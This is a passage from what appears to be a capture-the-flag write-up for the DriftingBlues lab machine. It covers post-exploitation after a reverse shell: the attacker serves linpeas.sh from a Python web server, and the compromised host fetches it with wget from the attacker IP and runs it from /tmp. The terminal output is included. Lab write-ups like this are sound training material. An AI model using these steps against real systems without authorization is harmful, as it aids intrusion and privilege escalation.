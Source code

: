 > And we got a reverse shell.
{: .prompt-info }

## privilege escalation
### Using `linpeas.sh`
Providing `linpeas.sh` on attacker machine with a simple web server.
```bash
$ python3 -m http.server 80   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Execute a `wget` on the target to download `linpeas.sh` from the attacker machine.
```bash
www-data@driftingblues:/$ cd /tmp
cd /tmp
www-data@driftingblues:/tmp$ wget http://192.168.49.76/linpeas.sh
wget http://192.168.49.76/linpeas.sh
--2022-11-19 10:12:28--  http://192.168.49.76/linpeas.sh
Connecting to 192.168.49.76:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 764159 (746K) [text/x-sh]
Saving to: `linpeas.sh'

     0K .......... .......... .......... .......... ..........  6%  850K 1s
    50K .......... .......... .......... .......... .......... 13% 1.65M 1s
   100K .......... .......... .......... .......... .......... 20% 2.14M 0s
   150K .......... .......... .......... .......... .......... 26% 7.43M 0s
   200K .......... .......... .......... .......... .......... 33% 2.72M 0s
   250K .......... .......... .......... .......... .......... 40% 7.89M 0s
   300K .......... .......... .......... .......... .......... 46% 3.18M 0s
   350K .......... .......... .......... .......... .......... 53% 4.19M 0s
   400K .......... .......... .......... .......... .......... 60% 10.3M 0s
   450K .......... .......... .......... .......... .......... 67% 13.4M 0s
   500K .......... .......... .......... .......... .......... 73% 5.00M 0s
   550K .......... .......... .......... .......... .......... 80% 4.11M 0s
   600K .......... .......... .......... .......... .......... 87% 8.77M 0s
   650K .......... .......... .......... .......... .......... 93% 18.1M 0s
   700K .......... .......... .......... .......... ......    100% 3.55M=0.2s

2022-11-19 10:12:28 (3.31 MB/s) - `linpeas.sh' saved [764159/764159]
```

`linpeas.sh` gets downloaded.
```bash
$ python3 -m http.server 80                                                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.76.219 - - [19/Nov/2022 11:12:28] "GET /linpeas.sh HTTP/1.1" 200 -
```

Executing `linpeas.sh`
```bash
www-data@driftingblues:/tmp$ ls
ls
linpeas.sh
vmware-root
www-data@driftingblues:/tmp$ sh linpeas.sh
sh linpeas.sh
...
```
